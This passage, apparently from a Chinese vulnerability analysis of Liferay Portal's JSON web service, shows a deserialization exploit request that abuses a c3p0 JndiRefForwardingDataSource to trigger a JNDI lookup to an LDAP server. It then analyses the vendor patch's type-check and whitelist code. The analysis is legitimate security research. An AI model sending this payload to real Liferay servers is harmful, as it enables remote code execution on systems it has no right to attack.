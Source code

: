 ```
cmd={"/expandocolumn/add-column":{}}&amp;p_auth=Gyr2NhlX&amp;formDate=1585307550388&amp;tableId=1&amp;name=1&amp;type=1&amp;+defaultData:com.mchange.v2.c3p0.JndiRefForwardingDataSource={"jndiName":"ldap://127.0.0.1:1389/Object","loginTimeout":0}
```

[![](./img/202209/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01fa7d5749ecf021ab.png)

解析出了参数类型，并进行参数对象反序列化，最后到达了jndi查询：

[![](./img/202209/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01b153b1b27bb5bb00.png)

#### 

## 补丁分析

Liferay补丁增加了类型校验，在`com.liferay.portal.jsonwebservice.JSONWebServiceActionImpl#_checkTypeIsAssignable`中：

[![](./img/202209/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01c39912c975b1be84.png)

```
private void _checkTypeIsAssignable(int argumentPos, Class&lt;?&gt; targetClass, Class&lt;?&gt; parameterType) {
        String parameterTypeName = parameterType.getName();
        if (parameterTypeName.contains("com.liferay") &amp;&amp; parameterTypeName.contains("Util")) {//含有com.liferay与Util非法
            throw new IllegalArgumentException("Not instantiating " + parameterTypeName);
        } else if (!Objects.equals(targetClass, parameterType)) {//targetClass与parameterType不匹配时进入下一层校验
            if (!ReflectUtil.isTypeOf(parameterType, targetClass)) {//parameterType是否是targetClass的子类
                throw new IllegalArgumentException(StringBundler.concat(new Object[]{"Unmatched argument type ", parameterTypeName, " for method argument ", argumentPos}));
            } else if (!parameterType.isPrimitive()) {//parameterType不是基本类型是进入下一层校验
                if (!parameterTypeName.equals(this._jsonWebServiceNaming.convertModelClassToImplClassName(targetClass))) {//注解校验
                    if (!ArrayUtil.contains(_JSONWS_WEB_SERVICE_PARAMETER_TYPE_WHITELIST_CLASS_NAMES, parameterTypeName)) {//白名单校验，白名单类在_JSONWS_WEB_SERVICE_PARAMETER_TYPE_WHITELIST_CLASS_NAMES中
                        ServiceReference&lt;Object&gt;[] serviceReferences = _serviceTracker.getServiceReferences();
                        if (serviceReferences != null) {
                            String key = "jsonws.web.service.parameter.type.whitelist.class.names";
                            ServiceReference[] var7 = serviceReferences;
                            int var8 = serviceReferences.length;

                            for(int var9 = 0; var9 &lt; var8; ++var9) {
                                ServiceReference&lt;Object&gt; serviceReference = var7[var9];
                                List&lt;String&gt; whitelistedClassNames = StringPlus.asList(serviceReference.getProperty(key));
                                if (whitelistedClassNames.contains(parameterTypeName)) {
                                    return;
                                }
                            }
                        }

                        throw new TypeConversionException(parameterTypeName + " is not allowed to be instantiated");
                    }
                }
            }
        }
    }
```

`_JSONWS_WEB_SERVICE_PARAMETER_TYPE_WHITELIST_CLASS_NAMES`所有白名单类在portal.properties中，有点长就不列出来了，基本都是以`com.liferay`开头的类。
